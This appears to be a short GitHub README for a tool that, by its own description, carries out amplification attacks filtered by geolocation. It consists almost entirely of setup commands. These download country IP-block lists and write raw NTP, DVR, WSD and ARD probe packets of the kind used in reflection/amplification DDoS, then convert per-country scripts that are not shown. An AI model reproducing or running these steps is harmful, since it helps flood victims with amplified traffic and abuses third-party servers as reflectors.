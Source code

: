 # amplification_geolocation
Do amplification attacks with specific geolocations


wget https://www.ipdeny.com/ipblocks/data/countries/br.zone
wget https://www.ipdeny.com/ipblocks/data/countries/cn.zone
wget https://www.ipdeny.com/ipblocks/data/countries/kr.zone
wget https://www.ipdeny.com/ipblocks/data/countries/th.zone

echo -ne "\x17\x00\x03\x2a\x00\x00\x00\x00" > ntp.pkt

echo -ne "\x44\x48\x49\x50" > dvr.pkt

echo -ne "<:>" > wsd.pkt

echo -ne "\x00\x14\x00\x00" > ard.pkt


apt install dos2unix -y
dos2unix br.sh
dos2unix kr.sh
dos2unix cn.sh
dos2unix th.sh
